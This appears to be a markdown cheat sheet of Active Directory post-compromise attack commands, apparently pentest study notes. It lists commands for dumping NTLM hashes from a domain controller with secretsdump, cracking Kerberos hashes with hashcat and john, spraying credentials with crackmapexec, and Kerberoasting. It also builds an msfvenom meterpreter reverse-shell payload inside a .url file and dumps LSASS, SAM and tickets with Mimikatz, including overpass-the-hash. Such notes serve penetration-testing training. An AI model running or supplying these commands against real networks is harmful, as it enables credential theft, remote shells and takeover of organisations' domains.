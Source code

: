 
* **Pass Attacks Overview**: Understand various pass-the-hash attacks.
	- Understand various pass-the-hash attacks.
* **Dumping and Cracking Hashes**: Extract and crack hashed passwords.
	- Extract and crack hashed passwords.
		```bash
		secretsdump.py -just-dc-ntlm domain/administrator@192.168.57.45
		hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt -O
		john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --fork=4
		```
- **Crackmapexec**
	```bash
	sudo crackmapexec smb 192.168.57.0/24 -u user -d group.local -p pass
	```
* **Kerberoasting Walkthrough**: Exploit Kerberos vulnerabilities.
	- Exploit Kerberos vulnerabilities.
		```bash
		sudo GetUserSPNs.py X.local/user:pass -dc-ip 192.168.57.45  -request
		```
* **Token Impersonation Walkthrough**: Impersonate user tokens.
	- Impersonate user tokens.
		```bash
		incognito.py
		```
* **URL File Attacks**: Exploit URL files for attacks.
	- Exploit URL files for attacks.
		```bash
		msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.57.45 LPORT=4444 -f url > payload.url
		```
* **GPP / cPassword Attacks and Mitigations**: Exploit Group Policy Preferences.
	- Exploit Group Policy Preferences.
		```bash
		gpp-decrypt
		```
* **Credential Dumping with Mimikatz**: Use Mimikatz for credential extraction.
	- Use Mimikatz for credential extraction.
		```bash
		mimikatz
		# Elevate to highest integrity level
			# privilege::debug
			# token::elevate
		# List available options
			# sekurlsa::
		# Dump Hashes in LSASS
			# sekurlsa::logonpasswords
		# Dump SAM
			# lsadump::sam
		# Dump Cached TGTs
			# sekurlsa::tickets
		# Overpass the Hash
			# sekurlsa::pth /user:username /ntlm:hash-here /domain:domain.tld
```

* **Post-Compromise Attack Strategy**: Plan post-compromise strategies.
	- Plan post-compromise strategies.
